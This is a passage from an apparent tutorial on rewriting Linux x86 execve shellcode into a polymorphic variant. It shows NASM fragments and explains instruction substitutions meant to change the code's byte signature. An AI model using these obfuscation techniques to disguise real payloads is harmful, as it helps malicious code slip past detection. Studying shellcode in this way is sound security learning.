 ```nasm
    push edi
    push ebx

    mov al, 0xa
    inc eax

    ; use the PUSH-POP technique instead of the MOV instruction
    push esp
    pop ecx

    ; call execve
    int 0x80
```

Now let me describe the changes. First, I've changed the following instructions...

```nasm
global _start

section .text

_start:

    xor eax,eax
    push eax
    push word 0x462d
    mov esi,esp
    push eax
```

...into this:

```nasm
global _start

section .text

_start:

    ; clear EBX, EAX, and EDX
    xor ebx, ebx
    mul ebx
    
    ; instead of pushing EAX, push EDX
    push edx

    ; push word 0x462d
    ; instead of pushing the WORD 0x462d, use two steps
    mov di, 0x462d
    push di
```

Starting from the beginning, instead of clearing only the register `EAX`, I'm also clearing `EBX` and `EDX`.
